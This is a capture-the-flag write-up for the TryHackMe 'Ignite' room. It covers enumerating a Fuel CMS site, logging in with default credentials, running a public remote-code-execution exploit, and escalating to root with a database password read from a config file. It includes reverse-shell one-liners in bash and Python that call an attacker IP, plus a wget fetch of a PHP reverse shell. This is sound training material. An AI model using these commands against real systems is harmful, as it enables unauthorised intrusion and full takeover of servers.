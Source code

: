 # [THM] - Ignite

[Room link](https://tryhackme.com/room/ignite)

---

## Enumeration

I use nmap for scanning the machine ports and services avalaibles.

First scan :

```bash
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:E2:A6:89:F5:5D (Unknown)
```

---

### HTTP 80

Let's move on the website on port 80. We can wee on the default page the CMS Fuel.

Let's rum a dirb scan :

```bash
$ dirb http://<target_IP>
[...]
==> DIRECTORY: http://10.10.85.16/assets/
+ http://10.10.85.16/home (CODE:200|SIZE:16593)                              
+ http://10.10.85.16/index (CODE:200|SIZE:16593)                             
+ http://10.10.85.16/index.php (CODE:200|SIZE:16593)                         
+ http://10.10.85.16/lost+found (CODE:400|SIZE:1134)                         
+ http://10.10.85.16/offline (CODE:200|SIZE:70)                              
+ http://10.10.85.16/robots.txt (CODE:200|SIZE:30)                           
+ http://10.10.85.16/server-status (CODE:403|SIZE:299)                       
                                                                             
---- Entering directory: http://10.10.85.16/assets/ ----
                                                                              + http://10.10.85.16/assets/@ (CODE:400|SIZE:1134)                           
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/cache/
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/css/                                                      
```

We can see a robots.txt available. If you go to check it in, you will see an another available directory on this website called /fuel/.

Now, we have an authentication form. Let's check the default credentials of the CMS.

The default credentials are : admin/admin. Try to test it.

That works ! We are connect as admin user.



---

## Exploitation

From the administration interface of the CMS, i meet some troubles for change anything.. 

In the same time, I checked if an exploit for Fuel CMS 1.4 exists. I found this follow :

```bash
$ searchsploit fuel cms
[...]
$ searchsploit -m 47138


I just delete the proxy variable and delete the proxy argument in the requests.get.

```bash
#       proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)
```

Run this exploit with the "id" remote command. 

```bash
$ python 47138.py
[...]
cmd:id
[...]
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">
[...]
```

We can try to send a command to set up a reverse shell. Don't forget to set a nc listener ( example : $ nc -lnvp 4444).

``̀`bash
cmd:"bash -c 'exec bash -i &>/dev/tcp/<my_ip>/<listener_port> <&1'"
`

That does not works. So let's try to set up a webserver on local and execute a wget command from the target to my machine for get a php reverse shell file.

```bash
# Local (we need to have our reverse shell file on the current directory)
$ python3 -m http.server 80
```

Take this follow commands to get the reverse shell file from target to our webserver.

```bash
cmd:wget http://<your_ip>/<reverse_shell_file>
```

Then, we can execute the file on the browser with this url : http://<target_ip>/<php-reverse-shell>

We can upgrade our reverse shell to a pseudo operationnel TTY :

```bash
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$  
``` 
 
---  
  
## User flag

The user flag is in /home/www-data/flag.txt

---

## Root flag

On the first reverse shell :
  
```bash  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<listner_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```  
  
On the second reverse shell
  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
```
  
There is an interesting things, the user's root password in this file /var/www/html/fuel/application/config/database.php
  
```bash
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => '*******',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```
  
Now, we can connect as root user and find the final flag on /root/root.txt
